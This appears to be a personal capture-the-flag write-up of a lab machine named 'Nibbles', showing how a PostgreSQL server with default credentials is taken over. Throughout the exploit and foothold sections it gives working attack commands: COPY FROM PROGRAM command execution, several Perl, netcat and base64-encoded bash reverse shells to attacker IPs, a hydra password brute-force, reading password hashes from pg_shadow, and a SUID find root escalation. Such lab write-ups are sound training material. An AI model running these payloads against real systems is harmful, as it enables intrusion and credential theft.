


# Nibbles Writeup

Name: Nibbles
Date:  11/10/2023
Difficulty:  Intermediate
Goals:  
- Wipe out more of TJNULL undone   
Learnt:
- Use the ports that the box uses again and dont be an idiot
Beyond Root:
- Improved my command inject cheatsheet

- [[Nibbles-Notes.md]]
- [[Nibbles-CMD-by-CMDs.md]]


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.



`postgres : postgres` default password and username


## Exploit

[0xsyr0](https://github.com/0xsyr0/OSCP#postgresql) :
```sql
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    // read credentials
```


But we are super user..


[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```


```
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.166:5432");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

`multi/postgres/postgres_copy_from_program_cmd_exec` module from metasploit. But ... similarly no shell


We can get the local.txt from reading it, but we cannot execute or read files with any characters that break postsql

No password within 8901 of rockyou.txt
```
hydra -v -V -u -l wilson -P /usr/share/wordlists/rockyou.txt -t 10 192.168.182.47 ftp
```


No `archive_mode`


Even though the user in passwd does have defined shell


The service does not:


https://github.com/b4keSn4ke/CVE-2019-9193


```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson';
COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson/ftp';
COPY cmd_exec FROM PROGRAM 'ls -la /';
COPY cmd_exec FROM PROGRAM 'ls -la /opt';

COPY cmd_exec FROM PROGRAM 'ls -la /srv';
COPY cmd_exec FROM PROGRAM 'ls -la /srv/ftp/';
COPY cmd_exec FROM PROGRAM 'ls -la /home'; -- No postgresql key
COPY cmd_exec FROM PROGRAM 'find / -type f -name page2.html 2>/dev/null';
COPY cmd_exec FROM PROGRAM 'ls -la /var/www';

COPY cmd_exec FROM PROGRAM 'ls -la /var/www/html';
COPY cmd_exec FROM PROGRAM 'ls -la /etc/apache2/sites-enabled/000-default.conf';
COPY cmd_exec FROM PROGRAM 'cat /etc/apache2/sites-enabled/000-default.conf'; -- breaks the postgresql

-- Perms!!  
-- Create a .ssh, id_rsa! 
COPY cmd_exec FROM PROGRAM 'mkdir /home/wilson/.ssh'; -- no permission to do so

COPY cmd_exec FROM PROGRAM 'echo VGVzdGluZyAxMjMK | base64 -d > /tmp/test.txt';
COPY cmd_exec FROM PROGRAM 'cat /tmp/test.txt';

COPY cmd_exec FROM PROGRAM 'which nohup';
-- /usr/bin/nohup

echo "nohup /dev/shm & "

COPY cmd_exec FROM PROGRAM 'which curl'; -- wget /usr/bin/wget

COPY cmd_exec FROM PROGRAM 'wget ';

-- Use UTF-16LE by mistake
COPY cmd_exec FROM PROGRAM 'echo LwBiAGkAbgAvAGIAYQBzAGgAIAAtAGkAIAA+ACYAIAAvAGQAZQB2AC8AdABjAHAALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA5ADEALwA2ADkANgA5ACAAMAA+ACYAMQAKAA==
 | base64 -d > /dev/shm/bash-i.sh';
COPY cmd_exec FROM PROGRAM 'nohup /dev/shm/bash-i.sh &';

COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.191:8443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- does not work:
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzk2OTYgMD4mMQo=
 | base64 -d | /bin/bash';


COPY cmd_exec FROM PROGRAM 'find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null';

-- Fails
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.191 9696 >/tmp/f';
-- Fails
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzE1MDAwIDA+JjE= | base64 -d | bash';

COPY cmd_exec FROM PROGRAM 'find . -type d -name *onf* 2>/dev/null | ls | xargs grep -rie ''passw''';


```

```
COPY files FROM PROGRAM ‘perl -MIO -e ‘’$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”192.168.45.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’’’;
```

```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.145.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';;																					

SELECT * FROM cmd_exec;

-- Cant chmod 
-- 000-.conf

-- exfil with base64 worked!
COPY cmd_exec FROM PROGRAM 'cat /etc/hosts |base64 ';
```
[r3d-buck3t](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)

## Foothold

Learn try different shells idiot. I then tried to find about PROGRAM works - https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767, which I did not release was a write up, till stroll over `/etc/passwd`. This seems so weird 

```bash
# I tried this one
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.191 80 >/tmp/f';

# And the only difference was no forward slash
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.119.130 4469 >/tmp/f';
```

Proof I already tried it. So I am not turning  this into a Helped-Through. I am not sure how it execute non path files 


And it can work from the same file...


And then I realised its the port. My fault. Massive Idiot.
## PrivEsc

I was a bit surprised.

```bash
./find . -exec /bin/sh -p \; -quit
```


The box mocks me with its forward slashes -  effective euid is root 

